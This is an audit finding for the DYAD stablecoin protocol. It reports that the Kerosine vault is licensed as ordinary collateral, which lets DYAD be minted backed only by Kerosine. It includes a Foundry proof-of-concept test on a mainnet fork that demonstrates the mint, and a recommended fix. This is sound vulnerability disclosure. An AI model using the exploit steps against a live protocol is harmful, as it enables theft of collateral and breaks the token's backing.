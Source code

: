 # The Kerosine Vault Is Licensed as a Non-Kerosine Vault

## Impact
DYAD can be minted which is backed only by Kerosine, with zero exogenous collateral.

## Severity
Likelihood: High - There are no preconditions.
Impact: High - Core invariant broken.
Severity: High

## Description
In Deploy.V2.s.sol#L95 we add the unbounded kerosine vault to the vault manager licenser, which allows adding it as a non-kerosene vault in VaultManagerV2.add#L75. VaultManagerV2.getNonKeroseneValue#L259 will take it as a regular vault and VaultManagerV2.getNonKeroseneValue#L262 reports the vault as licensed, so it can be used as a collateral and we pass the check in VaultManagerV2.mintDyad#L166.

## Proof of Concept
Note that we need to fix the issue with the v1 DYAD supply being counted in the unbounded kerosine vault numerator when calculating the kerosine price. We just replace L67 to subtract the v1 DYAD supply, calculated before the test.
```
uint numerator   = tvl - (dyad.totalSupply() - 11074181000000000000000);
```

Insert the following test into `test/fork/v2.t.sol`, and run it on a mainnet fork:

```
  function testMintWithOnlyKerosine() public {
    // We license the vault manager to be able to mint DYAD
    vm.prank(MAINNET_OWNER);
    Licenser(contracts.vaultLicenser).add(address(contracts.vaultManager));

    // Add the vault manager to the OLD licenser to allow minting DYAD
    vm.prank(MAINNET_OWNER);
    Licenser(0xd8bA5e720Ddc7ccD24528b9BA3784708528d0B85).add(address(contracts.vaultManager));

    DNft dNft = DNft(MAINNET_DNFT);
    
    // We reset the DNft contract to be able to mint free DNfts
    vm.etch(address(MAINNET_DNFT), address(new DNft()).code);
    dNft = DNft(MAINNET_DNFT);

    // We patch the Unbounded Kerosine Vault so that it doesn't count the v1 DYAD
    vm.etch(
      address(contracts.unboundedKerosineVault),
      address(
        new UnboundedKerosineVaultFixed(
          contracts.vaultManager,
          Kerosine(MAINNET_KEROSENE), 
          Dyad    (MAINNET_DYAD),
          contracts.kerosineManager
        )
      ).code
    );

    uint id1 = dNft.mintNft(address(this)); // We will use this one to deposit some weth and give value to kerosine
    uint id2 = dNft.mintNft(address(this)); // We will use this one to mint some kerosine backed DYAD

    // Obtain weth
    vm.prank(MAINNET_WETH); // deal not working for me
    ERC20(MAINNET_WETH).transfer(address(this), 1 ether);

    // Add the weth vault and deposit 1 eth to note 1 to give value to kerosine
    contracts.vaultManager.add(id1, address(contracts.ethVault));
    ERC20(MAINNET_WETH).approve(address(contracts.vaultManager), 1 ether);
    contracts.vaultManager.deposit(id1, address(contracts.ethVault), 1 ether);

    // Obtain kerosene
    vm.prank(MAINNET_OWNER);
    ERC20(MAINNET_KEROSENE).transfer(address(this), 100_000_000 ether); // This is a huge amount because the surplus collateral is low and the unitary price of kerosine is also low.

    // Add the kerosene vault and deposit 1 kerosine to note 2
    contracts.vaultManager.add(id2, address(contracts.unboundedKerosineVault));
    ERC20(MAINNET_KEROSENE).approve(address(contracts.vaultManager), 100_000_000 ether);
    contracts.vaultManager.deposit(id2, address(contracts.unboundedKerosineVault), 100_000_000 ether);

    // Mint dyad from note 2 using only kerosine
    contracts.vaultManager.mintDyad(id2, 1 ether, address(this));

    // Success!
    assertGt(ERC20(MAINNET_DYAD).balanceOf(address(this)), 0);
  }
```

## Recommendation
Don't add the kerosine vault to the vault manager licenser. Use a separate licenser for kerosine vaults. ALternatively, add an `isLicensedKerosine` function to the licenser.

